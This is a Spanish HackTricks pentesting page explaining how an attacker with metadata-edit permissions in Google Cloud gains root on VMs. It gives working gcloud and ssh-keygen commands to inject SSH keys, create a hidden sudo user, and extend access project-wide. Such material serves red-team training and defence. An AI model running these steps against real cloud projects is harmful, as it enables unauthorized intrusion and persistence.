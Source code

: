 # GCP - Agregar Metadatos SSH Personalizados

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos significativos de seguridad si un atacante obtiene los permisos necesarios**.

### **Incorporación de Claves SSH en Metadatos Personalizados**

En GCP, los **sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Linux de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [daemon de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones de las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar metadatos personalizados, podría hacer que el daemon encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se agregará al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar las Claves SSH Existentes en la Instancia:**
- Ejecuta el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCIA] --zone [ZONA]
```
- Presta atención al formato de las claves SSH: el nombre de usuario precede a la clave, separados por dos puntos.

2. **Preparar un Archivo de Texto para los Metadatos de la Clave SSH:**
- Guarda los detalles de los nombres de usuario y sus claves SSH correspondientes en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se agregan nuevas.

3. **Generar una Nueva Clave SSH para el Usuario Objetivo (`alice` en este ejemplo):**
- Utiliza el comando `ssh-keygen` para generar una nueva clave SSH, asegurándote de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Agrega la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.

4. **Actualizar los Metadatos de Clave SSH de la Instancia:**
- Aplica los metadatos de clave SSH actualizados a la instancia utilizando el comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acceder a la Instancia Usando la Nueva Clave SSH:**
- Conéctate a la instancia con SSH utilizando la nueva clave, accediendo al shell en el contexto del usuario objetivo (`alice` en este ejemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra ningún usuario interesante, es posible crear uno nuevo al que se le otorgarán privilegios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube mediante la **aplicación de claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí tienes una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**
- Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acceder a las Instancias Utilizando Claves a Nivel de Proyecto:**
- Con las claves SSH a nivel de proyecto en su lugar, puedes acceder por SSH a cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
- Un método directo para acceder por SSH a una instancia es utilizando el comando `gcloud compute ssh [INSTANCIA]`. Este comando utiliza tu nombre de usuario actual y las claves SSH configuradas a nivel de proyecto para intentar el acceso.


# Referencias
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
